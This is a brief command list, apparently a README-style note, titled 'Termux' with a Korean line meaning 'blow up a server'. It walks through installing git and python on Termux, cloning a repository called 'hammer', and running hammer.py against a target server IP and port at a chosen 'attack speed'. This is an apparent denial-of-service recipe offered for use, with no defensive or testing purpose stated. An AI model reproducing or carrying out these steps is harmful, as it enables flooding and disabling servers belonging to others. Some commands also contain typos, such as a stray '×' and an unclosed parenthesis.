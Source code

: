 # Termux
서버 터트리기
$ apt update && apt upgrade 
$ y
$ pkg install git 
$ pkg install python
$ git clone https://github.com/cyweb/hammer.git
$ ls 
$ cd hammer 
$ ls
$ chmod +× hammer.py
$ python3 hammer.py -s(ServerIP) -p(server Port -t (Attack Speed)
